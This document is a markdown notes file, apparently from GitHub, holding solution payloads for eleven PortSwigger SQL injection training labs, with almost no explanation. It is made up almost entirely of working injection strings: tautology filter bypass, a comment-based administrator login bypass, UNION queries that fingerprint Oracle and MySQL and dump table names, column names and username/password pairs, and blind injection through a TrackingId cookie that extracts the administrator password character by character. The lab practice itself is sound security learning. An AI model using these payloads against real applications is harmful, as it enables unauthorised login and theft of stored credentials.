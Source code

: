 # SQL injection


 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle

```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Lab4: SQL injection attack, querying the database type and version on MySQL and Microsoft

  ```sh
  order by 2#
  ```

  ```sh
  union select 1,2#
  ```

  ```sh
  union select 1,@@version#
  ```
### Lab5: SQL injection attack, listing the database contents on non-Oracle databases

  ```sh
  order by 2--
  ```
  ```sh
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
  ```sh
'+UNION+SELECT+column_name,table_name+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
  ```
  ```sh
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
  ```
### Lab6: SQL injection attack, listing the database contents on Oracle
```sh
order by 2--
```
```sh
'+UNION+SELECT+null,null+FROM+dual--
```
```sh
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
```sh
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
```sh
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
### Lab7: SQL injection UNION attack, determining the number of columns returned by the query
```sh
order by 3--
```
```sh
'union select null,null,null--
```
### Lab8: SQL injection UNION attack, finding a column containing text
```sh
'+UNION+SELECT+NULL,'a',NULL--
```
```sh
'+UNION+SELECT+NULL,'273Yf9bW',NULL--
```
### Lab9: SQL injection UNION attack, retrieving data from other tables
```sh
'+UNION+SELECT+null,null--
```
```sh
'+UNION+SELECT+null,table_name+from+information_schema.tables--
```
```sh
'+UNION+SELECT+column_name,table_name+from+information_schema.columns+where+table_name='users'--
```
```sh
'+UNION+SELECT+user,password+from+user--
```
### Lab10: SQL injection UNION attack, retrieving multiple values in a single column
```sh
'+UNION+SELECT+NULL,'a'--
```
```sh
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
Or

```sh
'+UNION+SELECT+NULL,username||password+FROM+users--
```

### Lab11: Blind SQL injection with conditional responses
```sh
TrackingId=xyz' AND '1'='1
```
```sh
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
```sh
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

```

```sh    
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

















